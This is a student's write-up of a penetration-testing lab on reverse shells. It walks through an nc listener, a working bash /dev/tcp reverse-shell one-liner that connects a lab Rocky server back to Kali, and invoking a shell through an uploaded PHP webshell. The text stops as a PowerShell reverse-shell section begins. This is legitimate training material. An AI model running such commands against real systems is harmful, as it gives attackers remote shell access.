










# Lab 8.2 - Reverse Shells

💡A reverse shell occurs when we convince the target to connect to the attacker. This vastly simplifies command and control because firewall egress rules are nearly always more permissive than ingress rules. Even so, Windows 10 will present us with a problem.
In the spirit of living off the land, we will spend some time using target native tools (as opposed to uploading or installing nc on the target) to create a command and control channel between the target and kali. The "target" is not actually a pen testing target but just a generic Rocky 8.5 Linux server that we can practice on. Some exercises will leverage our previously exploited systems

## Bash Reverse Shell on Linux

1. Login to sec335-rocky(10.0.17.200) from kali using ssh and your cyber.local credentials.

   `ssh hasan.hashim@cyber@10.0.17.200`

   

   

2. Determine your DHCP address for your kali vm's eth0 (not wg0)

   `ifconfig`

   

3. On Kali, Create a nc listener on 4449/tcp

   `nc -nlvp 4449`

   

4. On Rocky Use a native bash reverse shell to connect back to your listener

   I used the following command to send back connection to our nc:

   `/bin/bash -i >& /dev/tcp/10.0.17.119/4449 0>&1`

   

   

5. Interact with sec335-rocky over your kali nc session.

## Deliverable 1. Run wireshark, create a capture filter on 4449/tcp and capture a command or two entered through the nc session. Provide a screenshot showing the followed tcp stream, similar to the screenshot below.

## Deliverable 2. Try this out on Pippen by leveraging an uploaded webshell or reverse shell on pippen to run a similar command to connect back to a listener. You may need to upload a small shell script to make this happen, particularly if you are using the simple-backdoor.php script. Provide a screenshot similar to the one below that shows you invoking the reverse shell on the target via curl or your web browser and catching the connection on your kali box.

# Windows Powershell Reverse Shell

References: https://book.hacktricks.xyz/shells/shells/windows

The following powershell code is run via cmd.exe. Change ATTACKERIP and ATTACKERPORT to the eth0 IP on kali and port you assigned to a nc listener.

